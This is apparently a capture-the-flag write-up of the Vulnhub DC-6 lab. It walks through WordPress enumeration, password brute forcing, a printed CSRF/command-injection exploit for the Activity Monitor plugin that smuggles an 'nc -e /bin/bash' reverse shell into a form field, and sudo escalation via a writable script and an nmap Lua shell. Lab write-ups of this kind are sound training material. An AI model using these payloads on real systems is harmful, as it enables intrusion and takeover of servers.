 ```yaml
---
title:     "Vulnhub - DC 6"
tags: [easy,wordpress,sudo]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/1.png)<br/>
Today, We are going to pwn DC 6 by DCAU7 from Vulnhub


## Description

>DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
This isn't an overly difficult challenge so should be great for beginners.
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer,instead, I'll give you an idea about how  to move forward.

Download Link:<https://www.vulnhub.com/entry/dc-6,315/>


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:45:90:BE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.11
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/28 17:29:09 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
===============================================================
2019/11/28 17:29:11 Finished
===============================================================
```
Nothing Interesting

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/1.png)<br/>
Since it is a wordpress site , Lets run ``Wpscan`` to enumerate any user or find any vulnerable plugins.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/2.png)

We found 5 users 
> admin,jens,graham,mark,sarah
Lets start bruteforcing them.

But the creator give us a hint 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/3.png)

Now we can bruteforce easily!<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/4.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/5.png)

We got password for mark ``helpdesk01``

## Getting Shell

After Logged in
One thing i observerd is Activity monitor. It looks like a Plugin so it might have an exploit.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/6.png)

>https://www.exploit-db.com/exploits/45274

Yeah Found it!!

First things first, I decided to check the exploit and configure it (if required).

I changed some 
```
1. http://localhost:8000 to http://wordy
2. Removed -lnvp I want to listen on my machine.
```

```
<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc -e /bin/bash 10.0.2.18 9999" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Saved it and Open that ``.html`` and listening on my machine.
We got the shell


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/7.png)


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/8.png)

Found ``graham`` password on mark's directory

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/9.png)

Logged in as ``graham``

## Privilege Escalation

While enumerating i found a ``backup.sh`` on ``jens`` directory.

But i cant execute it.
I checked ``sudo -l`` on ``graham``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/10.png)

This means we can run with sudo rights, we also have write permission on that file.
So I replaced with giving us shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/11.png)

And Run the script
We became ``jens`` now and run ``sudo -l``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/12.png)

It looks like we can run ``nmap`` with sudo rights.

I searched on ``GTFObins``

> <https://gtfobins.github.io/gtfobins/nmap/>

```
echo 'os.execute("/bin/sh")' > $TF

nmap --script=$TF
```

We created our nmap script and make it run to give us root.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/13.png)

We got the ``Flag`` and Root !!

